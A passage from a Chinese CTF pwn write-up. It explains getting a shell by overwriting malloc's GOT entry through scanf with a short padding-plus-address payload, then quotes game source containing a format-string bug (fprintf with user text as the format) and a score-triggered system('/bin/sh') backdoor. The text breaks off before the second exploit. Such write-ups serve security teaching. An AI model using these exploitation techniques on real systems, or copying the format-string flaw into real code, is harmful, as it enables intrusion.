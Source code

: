 按照 参考文章 中的做法，利用 scanf 覆写 got 表为后门 system("/bin/sh")的地址，即可 getshell

比如，后续的 Init 函数中调用了 malloc，因此可以覆写 malloc 的 got 表：

```
PSnake head=(PSnake)malloc(sizeof(Node));
```

这题 malloc 的 got 表地址 0x405078 都是可见字符，解题时甚至不用写脚本

```
name = 'a'*220+'xP@' # xP@ <- (malloc.got)
goal = 4201717 # <- backdoor
```

## 鹅螺狮的方块(els) - TaQini

考察点：格式化字符串

打开游戏，发现底部有个留言板十分瞩目，找到对应源码，发现存在格式化字符串漏洞:

```
  /* 实时显示留言 */
    fmsg = fopen("./msg","r+");
    if (NULL == fmsg) exit(0);
    char message[0x100] = {0};
    fread(message,0x80,1,fmsg);
    fprintf(stdout,"\033[22;1H 留言:");
    fprintf(stdout,message);
```

那么本题的主要漏洞就是他了。

知己知彼，百战不殆。要想pwn掉els，需要先对程序了解个大概。于是浏览源码：

1. 程序开头读取本地 record 文件，加载变量最高记录，随后判断最高分数，大于阈值就给 shell

```
/* 读取文件的最高记录 */
    fp = fopen("./record","r+");
    if (NULL == fp)
    {
        /*
         * 文件不存在则创建并打开
         * "w"方式打开会自动创建不存在的文
         */
        fp = fopen("./record","w");
    }
    fscanf(fp,"%u",&maxScore);

    if(maxScore > 666666)
    {
        puts("干的漂亮！奖励鹅罗狮高手 shell 一个！");
        system("/bin/sh");
        exit(0);
    }
```

